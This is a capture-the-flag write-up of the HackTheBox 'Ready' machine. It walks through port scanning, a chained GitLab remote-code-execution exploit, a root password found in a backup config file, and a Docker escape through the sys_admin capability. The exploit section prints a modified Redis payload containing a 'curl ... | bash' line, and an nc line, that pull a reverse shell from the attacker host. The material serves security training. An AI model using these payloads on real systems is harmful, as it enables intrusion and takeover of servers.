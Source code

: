 ```yaml
---
title: Ready Writeup [HTB]
tags: [HackTheBox, Docker, Gitlab]
image: /assets/images/ready/ready.png
published: true
banner: true
---
```


Ready is a Linux based machine that was active since December 12th of 2020 to May 15th of 2021, on this machine we will exploit two vulnerabilities on Gitlab that chained together will allow us to get command execution on the machine, looking at the configuration files we will find the password of root user, but we will find out that we are inside a Docker container, finally we will escape from the container thanks to sys_admin capability.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.220
nmap -sC -sV -p 22,5080, -Pn -o scan.txt 10.10.10.220

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find two ports open, ssh and a webpage on port 5080, this site is running gitlab, so to access to it we register an account

![](/assets/images/ready/register.png)

# [](#header-1)Gaining Access

There are two CVEs (2018-19585 and 2018-19571) that together would allow us to get command execution on the machine if the gitlab version is vulnerable to it, we can find a [PoC](https://www.exploit-db.com/exploits/49334) on exploitdb for it, but on this case I used one available on [packetstorm](https://packetstormsecurity.com/files/160699/GitLab-11.4.7-Remote-Code-Execution.html), there is some changes that we need to make, first on the line that says `local_port = args.p`, we have to change it for `local_port = args.P` (note the uppercase), and we modify:

```python
form = """\nmulti
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
    exec
    exec
    exec\n"""
```

for:

```python
form = """\nmulti
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'curl {local_ip}:{local_port}/shell.sh | bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
    exec
    exec
    exec\n"""
```

As usual shell.sh contains a bash reverse shell command, I set up a http server with python and a listener, then run `python3 gitexpl.py -u <username> -p <password> -g http://10.10.10.220 -l 10.10.14.205 -P 8000` and we will get a shell in the machine.

![](/assets/images/ready/shell1.png)

This user also can read the file user.txt located at /home/dude

# [](#header-1)Privilege Escalation

According to the machines one of the first thing I do is look for configuration files, so after a quick check to the [docs](https://docs.gitlab.com/omnibus/settings/configuration.html), we find out that the configuration file for gitlab is "gitlab.rb", so let's search for all the copies of this file that we can read (looking for files that you can't read at the moment can be worth for further steps though, I just make it for cleaner output and move on faster if I can't access to them).

![](/assets/images/ready/findgit.png)

There are a couple of them, but most of them were modified over 2 years ago, so the one that caught our attention is the one located at /opt/backup. gitlab.rb is a huge configuration file, but we know that the commented lines start with "#", so let's grep for the configurations that are in place at the moment, `grep -v "^#" /opt/backup/gitlab.rb | grep -v "^$"`

![](/assets/images/ready/grep.png)

We found a smtp password, this password is also the password of root user.

![](/assets/images/ready/root1.png)

# [](#header-1)Docker Escape

We are root, but we haven't finished yet, since after exploring the machine we find out that we are inside a Docker container, so we check the capabilities of the container.

![](/assets/images/ready/capsh.png)

We see that the have the sys_admin capability, if the check the [manual](https://man7.org/linux/man-pages/man7/capabilities.7.html) this allows us to mount disks on the machine, so let's see the available disks with fdisk, there we see /dev/sda.

![](/assets/images/ready/devsda.png)

Knowing that we can create a directory, mount it there and access to the host system.

![](/assets/images/ready/root2.png)

We could use chroot to interact like we are inside the machine, download root ssh key, add our own key, modify the shadow file, and a lot of other methods if we want a direct access to the machine.